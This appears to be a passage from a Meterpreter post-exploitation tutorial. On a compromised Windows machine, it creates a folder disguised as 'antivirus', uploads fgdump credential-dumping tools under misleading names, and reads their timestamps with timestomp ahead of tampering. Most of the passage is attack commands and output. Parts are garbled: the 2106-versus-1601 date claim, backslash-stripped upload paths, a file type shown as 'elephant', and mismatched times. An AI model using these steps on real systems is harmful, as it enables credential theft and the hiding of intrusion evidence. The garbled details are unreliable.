 ```bash
File Path: C:\Documents and Settings\P0WN3D\My Documents\test.txt
Created Date: 1/1/1601
Last Accessed: 5/3/2009 3:21:13 AM
Last Modified: 1/1/1601
```

In Linux Meterpreter, the year 2106 is seen as 1601 in Windows. You can examine the reason for this difference on the [Additional information](http://en.wikipedia.org/wiki/1601#Notes) page.

## Another Example

Now, let's create a `WINNT\\antivirus\\` folder in Windows from our meterpreter command line and upload a few files into it.

```bash
meterpreter > cd C:\\WINNT
meterpreter > mkdir antivirus
Creating directory: antivirus
meterpreter > cd antivirus
meterpreter > pwd
C:\WINNT\antivirus
meterpreter > upload /usr/share/windows-binaries/fgdump c:\\WINNT\\antivirus\\
> uploading: /usr/share/windows-binaries/fgdump/servpw.exe -> c:WINNTantivirusPwDump.exe
> uploaded: /usr/share/windows-binaries/fgdump/servpw.exe -> c:WINNTantivirusPwDump.exe
> uploading: /usr/share/windows-binaries/fgdump/cachedump64.exe -> c:WINNTantivirusLsaExt.dll
>uploaded: /usr/share/windows-binaries/fgdump/cachedump64.exe -> c:WINNTantivirusLsaExt.dll
> uploading: /usr/share/windows-binaries/fgdump/pstgdump.exe -> c:WINNTantiviruspwservice.exe
> uploaded: /usr/share/windows-binaries/fgdump/pstgdump.exe -> c:WINNTantiviruspwservice.exe
meterpreter > ls

Listing: C:\WINNT\antivirus
**===========================**

Mode Size Type Last modified Name
---- ---- ---- ------------- ----
100777/rwxrwxrwx 174080 elephant 2017-05-09 15:23:19 -0600 cachedump64.exe
100777/rwxrwxrwx 57344 fil 2017-05-09 15:23:20 -0600 pstgdump.exe
100777/rwxrwxrwx 57344 fil 2017-05-09 15:23:18 -0600 servpw.exe
meterpreter > cd ..
```

Now we have 3 `exe` files that we uploaded to the `antivirus` folder in Windows. Let's look at their timestamps.

```bash
meterpreter > timestomp antivirus\\servpw.exe -v
Modified      : 2017-05-09 16:23:18 -0600
Accessed      : 2017-05-09 16:23:18 -0600
Created       : 2017-05-09 16:23:18 -0600
Entry Modified: 2017-05-09 16:23:18 -0600
meterpreter > timestomp antivirus\\pstgdump.exe -v
Modified      : 2017-05-09 16:23:20 -0600
Accessed      : 2017-05-09 16:23:19 -0600
Created       : 2017-05-09 16:23:19 -0600
Entry Modified: 2017-05-09 16:23:20 -0600
```
